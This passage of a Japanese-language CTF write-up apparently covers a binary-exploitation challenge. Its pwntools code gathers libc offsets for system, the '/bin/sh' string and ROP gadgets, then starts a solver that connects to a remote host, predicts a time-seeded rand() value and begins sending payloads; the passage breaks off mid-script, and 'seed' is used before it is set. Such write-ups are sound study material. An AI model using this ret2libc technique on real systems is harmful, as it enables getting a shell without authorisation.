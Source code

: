 ローカル環境とリモート環境でlibcが異なるので、読み込ませるlibcファイルを分けて、  
pwntoolsで各オフセット値を取得した。
<br>

```sh
#リモート環境用
#libc_file = "/home/xxxx/goose/libc.so.6"
#ローカル環境用
libc_file = "/lib/x86_64-linux-gnu/libc.so.6"

libc = ELF(libc_file, checksec=False)
rop = ROP(libc)
libc_start_main_offset = libc.symbols['__libc_start_main']
system_offset = libc.symbols['system']
binsh_offset = next(libc.search(b"/bin/sh"))
pop_rdi_ret_offset = rop.find_gadget(['pop rdi', 'ret']).address
ret_offset = rop.find_gadget(['ret']).address
```


**7.solver.py**  

以下が最終的なsolverになりました！

```python
#!/usr/bin/python3
from pwn import *
from Crypto.Util.number import *
from Crypto.Random import *
import ctypes
import time
import re

#program & connect infomation
file = "./chall"
binary = ELF(file, checksec=False)
context.binary= file
#context.log_level = 'debug'
server= 'XX.XX.XX.XX'
port = 9999


#case:remote
session = remote(server,port)
seed += 2                                 # account for the time lag +2
libc_file = "/home/xxxx/goose/libc.so.6"  # get the libc file from docker machine 

#case:local
#session = process(file)
#libc_file = "/lib/x86_64-linux-gnu/libc.so.6"

#startline
print("---------------------------------------------------------------")

#seed
seed = int(time.time())
local_libc = ctypes.CDLL("/lib/x86_64-linux-gnu/libc.so.6")
local_libc.srand(seed)
HONK_cnt = local_libc.rand() % 0x5b + 10
print(f"honk_num:{HONK_cnt},time={seed}")
print("---------------------------------------------------------------")

#1st:conversation
wait_messages = b"> "
session.recvuntil(wait_messages)
payload = b"any"
```